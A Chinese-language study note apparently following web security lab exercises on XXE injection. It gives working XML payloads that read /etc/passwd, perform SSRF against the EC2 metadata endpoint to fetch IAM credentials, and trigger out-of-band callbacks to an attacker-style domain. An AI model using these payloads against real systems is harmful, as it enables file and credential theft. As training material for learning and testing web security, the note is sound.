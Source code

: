 但没有任何预防XXE攻击措施，因此可以利用XXE漏洞读取任意文件

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe</productId></stockCheck> 
```

> 对于实际应用中的XXE漏洞，提交的XML中通常会存在大量数据值，应用程序的响应中可能会使用其中的任何一个。为了系统地测试XXE漏洞，通常将需要通过使用定义的实体并查看其是否出现在响应中来分别测试XML中的每个数据节点。

#### 案例1：利用XXE读任意文件

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><stockCheck><productId>&xxe;</productId>
<storeId>1</storeId></stockCheck>
```

### 2.利用XXE进行[[SSRF攻击]]

### 案例2：利用XXE进行SSRF攻击

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

实验室服务器在默认URL上运行（模拟的）EC2元数据终结点，响应中包含“Invalid ID：xxx”，后跟来自元数据终结点的响应

### 3.XXE盲漏洞

如果应用程序容易受到XXE注入的攻击，但在响应中**未返回任何已定义外部实体的值**，则会出现盲目XXE漏洞

1. 使用OAST(out-of-band)技术检测blind xxe
2. 触发XML解析错误，使错误消息包含敏感数据

#### OAST技术检测Blind XXE

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]> 
```

此XXE攻击导致服务器向指定的URL发出后端HTTP请求。攻击者可以监视最终的DNS查找和HTTP请求，从而检测到XXE攻击成功

##### 案例3：具备out-of-band交互的Bind XXE

```xml
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://q4vw12xmi32jmm42zuaqyj4j5ab0zp.burpcollaborator.net">]>
```

该实验解析XML后返回结果不显示其他信息，即只返回`"Invalid product ID"`，但可以通过触发与外部域的带外交互来检测XXE盲目漏洞

有时，由于应用程序进行了某些输入验证或所用XML解析器的某些强化，使用常规实体的XXE攻击被阻止了。在这种情况下，可能可以改为使用**XML参数实体**

```xml
<!ENTITY % myparameterentity "my parameter entity value" >
%myparameterentity;
```
